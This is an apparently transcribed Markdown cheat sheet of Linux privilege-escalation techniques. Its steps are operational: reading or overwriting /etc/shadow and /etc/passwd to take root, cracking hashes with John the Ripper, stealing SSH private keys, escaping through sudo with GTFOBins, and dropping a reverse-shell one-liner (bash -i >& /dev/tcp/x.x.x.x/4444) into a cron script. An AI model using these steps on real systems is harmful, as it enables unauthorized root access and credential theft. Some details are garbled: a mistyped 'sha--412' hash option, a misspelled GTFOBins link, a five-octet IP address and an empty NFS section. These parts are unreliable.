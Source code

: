 # Linux Privilege Escalation

|                    |                                  |
|-------------------:|----------------------------------|
| Author             | ?                                |
| Upload Date        | 2023-03-01                       |
| Source             | MindMap image share via LinkedIn |
| Transcriber/Editor | David Boyd                       |

## 1. Service Exploit

1. `ps aux | grep "^root"`

2. Enumerating Program Versions: `<prgm> --version`

3. Look for exploit in [GHDB][] or another...

## 2. Weak File Permissions

1. Find all readable & writable files & directories

    - `find /etc/ -maxdepth 1 -readable -type f`
    - `find /etc/ -maxdepth 1 -writable -type f`
    - `find / -executable -writable -type d 2>/dev/null`

2. /etc/shadow

    - IF we can ***read*** `/etc/shadow`; THEN

      1. `cat /etc/shadow`
      2. Get hashes
      3. Run `john` the Ripper against the ***root*** hash

    - IF we can ***write*** on `/etc/shadow`; THEN:

      1. Generate a password with any hash (i.e. SHA-512):
         `mkpasswd -m sha--412 <new-pass>`
      2. Put new-pass in shadow file
      3. Switch to root: `su root`

3. /etc/passwd

    - IF we can ***write*** to `/etc/passwd`; THEN

      1. Generate a new password hash: `openssl passwd new-password`
      2. Edit the `/etc/passwd`:
          - Place the generated password hash between the first & second colon
            `:` of the ***root user's row*** (replacing the `x`)
      3. Switch to root: `su root`

## 3. Backups

- Some common places include user home directories, the `/` (root) directory,
   `/tmp`, and `/var/backups`

- Search for **PRIVATE KEYS** to use for loggins

## 4. SSH Key

1. Get SSH keys using `linpeas`

2. Check if we can make **root logins** via SSH: `grep PermitRootLogin
   /etc/ssh/sshd_config`

3. IF SSH KEY Copy key in local machine; THEN:

    1. Give 600 permission: `chmod 600 /path/to/key`
    2. Login: `ssh -i root_key root@x.x.x.x.x`

## 5. Sudo find in ( /etc/sudoers )

1. Get sudo users' rules: `sudo -l`

2. IF `sudo su` does NOT run; THEN try:

    - `sudo -s`
    - `sudo -i`
    - `sudo /bin/bash`
    - `sudo passwd`

3. After listing programs, get their **shell escape sequences** via: [GTFOBins]

## 6. Best Technique

- IF we don't know the user hash and password and do not have read permissions
on the `/etc/shadow` or `/etc/passwd` files; THEN:

    1. Run program with `-f /etc/shadow`
    2. Extract hashes
    3. Use `su`

## 7. Cron Jobs ( schedule tasks )

- **File Permissions**

  - IF we found file `.sh`: `bash -i >&/dev/tcp/x.x.x.x/4444 0>&1`

- **`PATH` Environment Variable**

  - IF we can *write* in `.ocation` such as our directory; THEN:

    - write a script and put it in the **home** directory --it'll run auto

## NFS ( configured in `/etc/exports` )

[GHDB]: https://www.exploit-db.com/google-hacking-database/
[GTFOBins]: https://ghtfobins.github.io/
